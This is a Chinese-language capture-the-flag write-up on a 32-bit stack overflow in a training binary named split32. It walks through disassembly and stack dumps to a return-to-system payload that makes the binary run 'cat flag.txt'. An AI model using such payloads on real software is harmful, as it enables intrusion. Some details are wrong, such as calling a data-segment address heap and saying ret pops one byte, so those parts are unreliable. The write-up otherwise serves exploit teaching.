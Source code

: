 ## Checksec
| Short | Full | Description |
| --- | --- | --- |
| RELRO | RELocation Read Only | GOT 是否可写 |
| Stack | CANARY | Canary 是否启用（棧溢出检测） |
| NX | No-eXecute | Stack 页是否可执行 |
| PIE / PIC | Position Independent Executable / Code | 需搭配ASLR才能产生作用，细节见第二个section |

本题的 checksec 结果：
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
PIE 没启用，所以至少可以确定 bss, text, data 三个 segments 的位址固定。

<br>

## ASLR 与 PIE 的效果
Linux 中 ASLR 分为三个级别：

| Level | Randomized |
| --- | --- |
| 0（关闭） | - |
| 1（半随机） | shared libraries, stack |
| 2（全随机） | shared libraries, stack, heap |

<br>

PIE (Position Independent Executable) 是 gcc/g++ 中其中一个flag。

若启用，编译出来的执行档可被读取在内存中的任意位址并成功运行。

| Enabled | Randomized Targets |
| --- | --- |
| No | - |
| Yes | bss, text, data, heap |

<br>

## Reverse
列舉一下 functions
```
0x0804857b  main
0x080485f6  pwnme
0x08048649  usefulFunction
```

先逆向 pwnme()，发现其中一个被呼叫的函数是 fgets(buf, 0x60, stdin)。

buf 位于 ebp-0x28 处，若读入>0x28字节就会发生栈溢出。
```
0x0804862f <+57>:  mov    eax,ds:0x804a080
0x08048634 <+62>:  sub    esp,0x4
0x08048637 <+65>:  push   eax
0x08048638 <+66>:  push   0x60
0x0804863a <+68>:  lea    eax,[ebp-0x28]
0x0804863d <+71>:  push   eax
0x0804863e <+72>:  call   0x8048410 <fgets@plt>
```

我们可以通过覆盖 return address 跳转。但是，要跳转到哪里呢？逆向一下 usefulFunction()
```
0x08048649 <+0>:     push   ebp        # setup x86 stack frame
0x0804864a <+1>:     mov    ebp,esp    # setup x86 stack frame
0x0804864c <+3>:     sub    esp,0x8    # allocate space on stack
0x0804864f <+6>:     sub    esp,0xc    # allocate space on stack （为什么要分两步做。。。）
0x08048652 <+9>:     push   0x8048747  # push system() 的参数，参数是一个 char*，一个字串的头位址
0x08048657 <+14>:    call   0x8048430 <system@plt>  # 呼叫 system()：相当于 push eip
0x0804865c <+19>:    add    esp,0x10
0x0804865f <+22>:    nop
0x08048660 <+23>:    leave
0x08048661 <+24>:    ret
```

打印 system() 的参数，发现是 "/bin/ls" 这个字串。但这只能列出 cwd 下的文件，而我们目标是看到 flag，所以要想办法替换这个字串。
0x8048747 我们没办法覆盖到，所以要采取别的办法。
```
pwndbg> x/1s 0x8048747
0x8048747:      "/bin/ls"
```

开一个新的 terminal，用 strings 指令看一下 split32 包含什么字串
```
$ strings split32 | "bin"
/bin/ls
/bin/cat flag.txt
```

那么这个字串位址是啥。。。？我们可以开一个新的 gdb，得到 usefulString 位于 0x0804a030

可以自己用 x 指令确认一下是不是 "/bin/cat flag.txt" 字串，这边就不写这个流程了。
```
pwndbg> info variables
（省略若干条输出）
0x0804a030  usefulString
（省略若干条输出）
```

现在我们基本的思路就是：

1. 在 pwnme() 通过 stack bof 覆盖 return address
2. 执行到 ret 时，跳转 usefulFunction() 里面的 call system()
3. 为什么直接跳到 call system() 而不是它前面一点的地方？因为前一行是 push "/bin/ls"，我们不要这个参数
4. 既然不要这个参数，我们就得自己塞个参数是吧？那么要塞哪里呢？
5. ret = `pop eip`，然后下一条指令就是 `call system()`
6. 所以 call 之前的 esp 处，就是我们要塞 system() 参数的地方！

继续看 pwnme() 里面 fgets() 之后的汇编，发现有个非常sb的行为，居然 add esp, 0x10！？？？
```
0x0804863e <+72>:  call   0x8048410 <fgets@plt>
0x08048643 <+77>:  add    esp,0x10
0x08048646 <+80>:  nop
0x08048647 <+81>:  leave
0x08048648 <+82>:  ret
```

我们只好进行动态分析。断点设 *pwnme+77 并运行。输入几个'A'，然后看看 esp 后内存的内容。

我们可以发现 esp += 0x10 之后，esp正好就位于 buf 的头
```
pwndbg> x/25xw $esp
0xffffc750: 0xffffc760  0x00000060  0xf7f955c0  0xa33cf400
0xffffc760: 0x41414141  0x41414141  0x0000000a  0x00000000
0xffffc770: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffc780: 0x08048706  0x00000000  0xffffc798  0x080485d9
                                       ^ ebp      ^ ebp+4
0xffffc790: 0x00000000  0xffffc7b0  0x00000000  0xf7dcda11
```

接着分析 leave。
1. esp 会指向 ebp 所指向之处 (mov ebp, esp)
2. ebp 接着会变成「进 pwnme() 前的 ebp」 (pop ebp)

执行完 leave 后，esp 在：
```
0xffffc750: 0xffffc760  0x00000060  0xf7f955c0  0xa33cf400
0xffffc760: 0x41414141  0x41414141  0x0000000a  0x00000000
0xffffc770: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffc780: 0x08048706  0x00000000  0xffffc798 [0x080485d9] <-- esp
0xffffc790: 0x00000000  0xffffc7b0  0x00000000  0xf7dcda11
```

接着分析 ret。
1. ret = pop eip，所以会再 pop 一个 byte，也就是说执行 ret 后 esp 会再 += 4

执行完 ret 后，esp 在：
```
0xffffc750: 0xffffc760  0x00000060  0xf7f955c0  0xa33cf400
0xffffc760: 0x41414141  0x41414141  0x0000000a  0x00000000
0xffffc770: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffc780: 0x08048706  0x00000000  0xffffc798  0x080485d9
0xffffc790:[0x00000000] 0xffffc7b0  0x00000000  0xf7dcda11
               ^ esp
```

假设我们通过 bof，覆盖了 return address，现在 eip 得是 call system() 那行的位址了（0x08048657）

call 会直接 push eip, 然后把 eip 设成被呼叫的函数的位址。我们知道进入一个 function 后，return address 下就是接着参数。

因此！！！我们要塞的参数，就是在上图那个 esp 处！！！！！！！！payload 怎么写呢？复习一下我们 buffer 的样子
```
0xffffc760: 0x41414141  0x41414141  0x0000000a  0x00000000
0xffffc770: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffc780: 0x08048706  0x00000000  0xffffc798  0x080485d9
0xffffc790: 0x00000000
```

所以 payload 是 `11 * "AAAA"` + `usefulFunction() 里 call system() 那行指令的位址` + `usefulString 的位址`

因为 PIE 没开启，所以 .text 和 .data 位址都是固定的（上面我们用到的那两个位址，一个在 .text，一个在 .heap），这在编写 exploit 的时候方便许多。

<br>

## Pwn
gdb 中进行 pwn：
```
pwndbg> r <<< $(python2 -c 'print 11 * "AAAA" + "\x57\x86\x04\x08" + "\x30\xa0\x04\x08")
ROPE{a_placeholder_32byte_flag!}
```

exploit 脚本请看 exploit.py

---

顺带一提，怎么知道 usefulString 在 .heap?
```
pwndbg> info address usefulString
Symbol "usefulString" is at 0x804a030 in a file compiled without debugging.
```
pwndbg 会有颜色提示，0x804a030 是蓝色的字，代表在 heap 上。
